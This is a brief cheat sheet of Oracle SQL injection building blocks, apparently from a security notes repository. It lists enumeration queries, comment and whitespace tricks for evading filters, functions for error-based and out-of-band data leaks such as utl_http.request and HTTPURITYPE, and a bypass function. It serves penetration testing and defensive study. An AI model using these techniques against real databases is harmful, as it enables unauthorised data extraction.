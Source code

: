 Oracle Payload
=====================================

- dump
    - ``select * from v$tablespace;``
    - ``select * from user_tables;``
    - ``select column_name from user_tab_columns where table_name = 'table_name';``
    - ``select column_name, data_type from user_tab_columns where table_name = 'table_name';``
    - ``SELECT * FROM ALL_TABLES``
- Comment
    - ``--``
    - ``/**/``
- Space
    - ``0x00`` ``0x09`` ``0xa-0xd`` ``0x20``
- 报错
    - ``utl_inaddr.get_host_name``
    - ``ctxsys.drithsx.sn``
    - ``ctxsys.CTX_REPORT.TOKEN_TYPE``
    - ``XMLType``
    - ``dbms_xdb_version.checkin``
    - ``dbms_xdb_version.makeversioned``
    - ``dbms_xdb_version.uncheckout``
    - ``dbms_utility.sqlid_to_sqlhash``
    - ``ordsys.ord_dicom.getmappingxpath``
    - ``utl_inaddr.get_host_name``
    - ``utl_inaddr.get_host_address``
- OOB
    - ``utl_http.request``
    - ``utl_inaddr.get_host_address``
    - ``SYS.DBMS_LDAP.INIT``
    - ``HTTPURITYPE``
    - ``HTTP_URITYPE.GETCLOB``
- 绕过
    - ``rawtohex``

